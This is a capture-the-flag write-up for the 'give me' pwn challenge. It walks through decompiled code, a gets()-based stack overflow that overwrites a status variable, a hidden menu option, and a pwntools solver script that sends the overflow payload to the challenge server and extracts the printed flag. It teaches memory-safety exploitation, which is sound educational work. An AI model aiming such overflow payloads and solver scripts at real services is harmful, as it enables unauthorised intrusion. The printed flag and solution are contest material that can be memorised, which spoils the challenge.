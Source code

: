 ```yaml
---
title: give me
icon: Binary
---
```


### Challenge Description

Author : anakmamah

Maafkan soal yang gampang ini 🙏🏻, probset nya skill issue

### Flag

`HOLOGY7{1ts_4lw4ys_0v3rfl0w_Vu1n_h3R3}`

***

### Analysis and Solution

We are given an executable, so we need to decompile it using Ghidra. From the decompilation results, we are given a menu application where we can register, login, view profile, logout and exit.

```c
  // snip
  do {
    while( true ) {
      puts("\n--- Menu ---");
      puts("1. Register");
      puts("2. Login");
      puts("3. View Profile");
      puts("4. Logout");
      puts("5. Exit");
      printf("Choose an option: ");
      __isoc99_scanf(&DAT_00102327,&local_38);
      getchar();
      if (local_38 < 6) break;
      if (local_38 == 69) {
        add_credits(&local_30,local_34);
      }
      else {
switchD_001016e4_caseD_5:
        puts("Invalid choice. Try again.");
      }
    }
    // snip
```

From the `login` function, we can see a `gets` function called to get the password. Which means this function is vulnerable to a buffer overflow attack. From the code flow, we can infer if our username is `A` and our password is `s3cr3tpass` and our `local_c` value is `yek`, then we can access a new feature to add credits.

```c
void login(char *param_1,undefined4 *param_2,undefined4 *param_3)

{
  int iVar1;
  char local_38 [44];
  uint local_c;
  
  local_c = 0;
  puts("Enter your username: ");
  fgets(param_1,8,stdin);
  puts("Enter your password: ");
  gets(local_38);
  printf("You entered: %s\n",local_38);
  printf("Your status is: %d\n",(ulong)local_c);
  iVar1 = strcmp(local_38,"s3cr3tpass");
  if (iVar1 == 0) {
    puts("Login successful!");
    *param_2 = 1;
    if ((local_c == 0x79656b) && (*param_1 == 'A')) {
      *param_3 = 1;
      puts("Feature unlocked: You can now add credits!");
    }
    else {
      puts("Feature locked: You cannot add credits yet.");
    }
    return;
  }
  puts("Invalid password. Try again.");
                    /* WARNING: Subroutine does not return */
  exit(1);
}
```

Since the program does not change the `local_c` variable, we need to leverage a buffer overflow to overwrite the `local_c` variable. To do that, we need to put in `s3cr3tpass`  where this is the value we need to have to pass the `strcmp` check. Then we need to concatenate 34 null bytes, where 34 is the array size of `local_38` subtracted by the length of `s3cr3tpass`. The null bytes acts as the string termination character while also filling up our buffer. Then we need to concatenate `yek` to pass the `local_c` check. But since the payload will be interpreted using little-endian, we will concatenate `key` instead.

```python
# Password Payload
b"s3cr3tpass" + b"\x00"*34+ b"key"
```

After entering the username and password, we should be allowed to access the new feature. From the menu code, we can access the `add_credits` function by entering `69` as the option on the menu (nice).

From the `add_credits` code, we need to input the value of `calculate_value()` to get to the `congrats()` function. The value of `calculate_value()` is simply `3735991189`. After entering the value, the `congrats()` function will return our flag.

```c
void add_credits(uint *param_1,int param_2)

{
  int local_10;
  uint local_c;
  
  if (param_2 == 0) {
    puts("Access denied! You need to unlock this feature first.");
  }
  else {
    puts("Wow, how did u find me :O");
    printf("Enter the amount of credits to add: ");
    __isoc99_scanf(&DAT_0010225d,&local_10);
    *param_1 = local_10 + *param_1;
    printf("Credits added! Total credits: %d\n",(ulong)*param_1);
    local_c = calculate_value();
    if (local_c == *param_1) {
      puts(" Accessing secret...");
      congrats();
    }
  }
  return;
}
```

### Solver Script

```python
from pwn import *
import re

r = remote('103.175.221.20', 3333)
r.recvuntil(b"option: ")
r.sendline(b"2")
r.recvuntil(b"username: \r\n")
r.sendline(b"A")
r.recvuntil(b"password: \r\n")
r.sendline(b"s3cr3tpass"+b"\x00"*34+b"key")
r.recvuntil(b"option: ")
r.sendline(b"69")
r.recvuntil(b"add: ")
r.sendline(b"3735991189")

print(re.findall(r"HOLOGY7{.*}", r.recv().decode())[0])
```
